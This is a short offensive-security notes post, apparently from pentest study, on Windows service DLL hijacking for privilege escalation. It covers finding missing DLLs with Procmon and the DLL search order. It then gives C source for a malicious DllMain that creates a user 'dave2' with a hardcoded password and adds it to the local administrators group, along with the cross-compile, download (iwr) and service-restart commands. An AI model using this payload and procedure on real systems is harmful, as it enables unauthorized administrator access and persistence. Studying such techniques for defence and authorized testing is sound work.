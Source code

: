 ```yaml
---
layout: post
title: Windows Service DLL Hijacking
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "exploit", "dll"]
---
```


#### dll hijacking

if we are unable to replace the binary bc of a permission issue we may be able to work with its dlls

we can run procmon to display the loaded dlls of the binary we are interested in, however, we need admin creds to run procmon

depending on the application, if necessary we can copy the binary to our local system to execute in a different administrator environment to see which dlls we have available to us

in Procmon -> Filter -> Filter -> Proces Name is -> proc 'include'

to get our process to register in procmon

    PS > Restart-Service proc

looking at the procmon results we see a lot of name not found for a specific dll

with the missing dll we can attempt to write a dll to the dll search order path

    1. The directory from which the application loaded.
    2. The system directory.
    3. The 16-bit system directory.
    4. The Windows directory. 
    5. The current directory.
    6. The directories that are listed in the PATH environment variable.

dll main can be optional and executed when processes or threads attach to and execute the dll - 

if a dll does not contain a dll main function then that dll only provides resources

    PS > $env:path

checking the environment path 

```c
BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
above is a MS example of a DLL that demonstrates the four cases in which a dll is used

since our example is trying to load a dll we will use that case

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    //i = system ("net user daveadmin password123!"); //to change a current users password.
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

now we cross compile our cpp code to the name of the dll we want to use

    $ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

copy the binary over to the correct directory

    PS C:\Users\me\dlldirectory > iwr -uri http://192.168.1.1/myDLL.dll -Outfile myDLL.dll

restart the service 

    PS > Restart-Service BetaService